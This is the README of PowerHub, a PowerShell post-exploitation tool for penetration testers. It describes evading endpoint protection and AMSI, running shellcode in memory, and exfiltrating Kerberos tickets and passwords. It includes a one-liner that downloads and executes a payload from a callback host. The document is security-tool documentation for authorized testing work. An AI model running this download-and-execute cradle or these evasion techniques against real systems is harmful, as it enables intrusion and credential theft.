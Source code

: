 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Check out the
[Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/)! Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```
PS C:\Users\avollmer> $K=new-object net.webclient;IEX $K.downloadstring('http://192.168.11.2:8080/0?t=http&f=r&a=reflection');
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
                            written by Adrian Vollmer, 2018-2019
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> lhm powerview
Name                                Type N  Loaded
----                                ---- -  ------
ps1/PowerSploit/Recon/PowerView.ps1 ps1  29   True
PS C:\Users\avollmer> Get-LocalGroup | pth -Name groups.json
```

![PowerHub in action](https://github.com/AdrianVollmer/PowerHub/blob/master/img/inaction.png)


Installation
============

PowerHub itself does not need to be installed. Just execute `powerhub.py`.
However, there are a few dependencies. They are listed in the
[requirements.txt](https://github.com/AdrianVollmer/PowerHub/blob/master/requirements.txt).
Install them either via `pip3 install --user -r requirements.txt` or use a
virtual environment.

Python2 is not supported.

venv
----

`venv` can be installed on Debian-like systems by `apt install
python3-venv`.

Run `python3 -m venv env` to create a virtual environment, then use `source
env/bin/activate` to activate it. Now run `pip3 install -r requirements.txt`
to install the depencendies inside the virtual environment.

pipenv
------

Alternatively, you can use `pipenv`. `pipenv` can be installed on
Debian-like systems by `apt install pipenv`.

Run `pipenv install` once in the PowerHub directory, then `pipenv shell` to
activate the virtual environment.


Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). You should also use `--auth <user>:<pass>`, otherwise, a randomly
generated password will be used for basic authentication. The switch
`--no-auth` disables basic authentication which is *not recommended*. The
callback host name is used by the stager to download the payload. If the
callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` and the [Wiki](https://github.com/AdrianVollmer/PowerHub/wiki/Usage) for details.


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4, @SkelSec. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
